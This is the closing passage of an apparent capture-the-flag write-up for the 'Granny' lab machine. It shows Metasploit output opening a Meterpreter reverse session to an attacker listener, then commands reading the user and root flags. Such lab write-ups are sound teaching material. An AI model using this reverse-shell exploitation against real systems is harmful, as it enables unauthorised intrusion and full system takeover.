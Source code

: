 ```sh
[+] Exploitation successful!
[*] Sending stage (177734 bytes) to 10.10.10.15
[*] Meterpreter session 2 opened (10.10.16.12:4444 -> 10.10.10.15:1042) at 2025-01-30 02:14:08 +1100
```
{% endraw %}

<br />
Get the user.txt flag.

{% raw %}
```sh
C:\Documents and Settings\Lakis\Desktop>type user.txt
type user.txt
<redacted>
C:\Documents and Settings\Lakis\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IP Address. . . . . . . . . . . . : 10.10.10.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```
{% endraw %}

<br />
Get the root.txt flag.

{% raw %}
```sh
C:\Documents and Settings\Administrator\Desktop>type root.txt
type root.txt
<redacted>
C:\Documents and Settings\Administrator\Desktop>ipconfig
ipconfig

Windows IP Configuration


Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : 
   IP Address. . . . . . . . . . . . : 10.10.10.15
   Subnet Mask . . . . . . . . . . . : 255.255.255.0
   Default Gateway . . . . . . . . . : 10.10.10.2
```
{% endraw %}

<br />
And with that, wrapped up Granny.  See you in the next one.